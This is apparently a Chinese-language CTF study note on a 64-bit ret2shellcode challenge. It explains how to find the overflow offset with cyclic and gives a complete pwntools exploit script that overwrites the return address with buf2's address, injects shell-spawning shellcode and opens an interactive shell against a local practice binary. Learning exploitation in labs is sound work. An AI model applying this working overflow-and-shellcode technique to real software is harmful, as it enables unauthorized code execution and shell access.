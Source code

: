![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-27_12-49-43.png)

在这个过程中，所得 溢出地址为8字节，而cyclic 只能处理4字节，因此我们选择，后四字节作为地址,计算便宜，使用前四个字节作为地址，会发现便宜多了四字节

>cyclic -l 0x6161616b



#### EXP

```python
from pwn import *
context(arch = "amd64",os = "Linux")
context.log_level =  "debug"
e = ELF("./ret2shellcode64")
buf2 = e.symbols["buf2"]    #这两条指令 加载程序，然后通过符号表搜索buf2，获取buf2的地址,得到的地址为小端序
p = process("./ret2shellcode64")
shellcode = asm(shellcraft.sh())  #自动生成shellcode
offset = 40
payload1 = offset*b'A' + p64(buf2) #p64 将buf2补齐为64位，因为有两次输入，所以有俩个payload，这一次是为了覆盖返回地址
p.recvuntil(": ") #程序有交互，等待提示信息后输入
p.sendline(payload1)
payload2 = shellcode.ljust(200,b'A')
p.recvuntil(": ") #程序有交互，等待提示信息后输入
p.sendline(payload2)
p.interactive()
```

